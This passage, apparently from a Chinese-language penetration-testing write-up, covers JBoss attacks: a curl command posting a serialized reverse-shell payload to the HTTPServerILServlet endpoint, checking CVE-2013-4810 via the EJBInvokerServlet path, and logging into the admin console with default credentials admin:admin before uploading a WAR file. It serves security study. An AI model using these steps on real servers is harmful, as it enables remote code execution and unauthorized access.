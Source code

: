 说明是存在漏洞

### 漏洞利用

```php
curl http://192.168.175.196:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @
ReverseShellCommonsCollectionsHashMap.ser
```

![1619499269483](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3a2b6c416704f02f40419daf2ec3e8bc8a4dc383.png)

![1619499250210](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4e314aa44ac896ee753139b985c428b082225ac9.png)

### 修复建议

升级版本！

JBoss EJBlnvokerServle反序列化漏洞(CVE-2013-4810）
-------------------------------------------

### 验证漏洞

```php
/invoker/EJBInvokerServle
```

能返回结果 就可以利用

### 两者区别

与(CVE-2015-7501)漏洞原理相同，这里详细介绍一下两者的区别

其区别就在于两个漏洞选择的进行其中JMXInvokerServlet和 EJBInvokerServlet利用的是`org.jboss.invocation.Marshalledvalue`进行的反序列化操作

而Web-console/Invoker利用的是`org.jboss.console.remote.RemoteMBeanInvocation`进行反序列化并上传构造的文件

Administration Console弱口令
-------------------------

Administration Console管理页面存在弱口令

存在管理界面

![1619500280595](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0924ecd64501170f39b233ea3ac060a9a07a0858.png)

弱口令：

admin：admin

然后没有验证码 可以爆破

登陆后台上传war包！

这里有上传按钮

![1619500962012](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5a2624d06e6bed906af607ac49f63455417190ef.png)
